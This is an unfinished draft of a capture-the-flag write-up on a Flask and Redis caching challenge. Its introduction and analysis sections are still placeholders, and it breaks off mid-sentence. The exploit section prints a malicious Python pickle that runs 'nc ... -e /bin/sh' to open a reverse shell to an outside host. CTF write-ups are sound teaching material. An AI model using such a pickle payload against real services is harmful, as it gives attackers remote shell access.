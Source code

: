 ```yaml
---
title: "CTF Flask Caching"
date: 2020-12-03T08:14:05-05:00
tags: ["ctf", "ufsit", "python", "redis", "flask"]
---
```


## Introduction

INTRO HERE

## Code Analysis and Observed Behavior of Application

TALK ABOUT FLASK APP, REDIS, AND DEFAULT BEHAVIOR OF CACHING FUNCTION RESPONSES

## The Exploit

Funnily enough, after trying multiple different nonfunctional payloads, our answer was found
within the OFFICIAL python3 documentation on pickles. [This link](https://docs.python.org/3/library/pickle.html#restricting-globals)
shows how a pretty compact looking pickle lets us import and execute shellcode using the os module.
Below is a form of this pickle that has been crafted to connect to a DO Droplet:

`pickle`

```text
!cos
system
(S'nc REDACTED-IP 6969 -e /bin/sh'
tR.%
```

One question that we had while crafting this pickle was whether or not the challenge was intended to
be solved in such a way and if there was a better approach than this one. Nevertheless, a shell is
always a nice thing to have :)

## Gaining Shell Access and Finding the Flag

Using the pickle detailed above
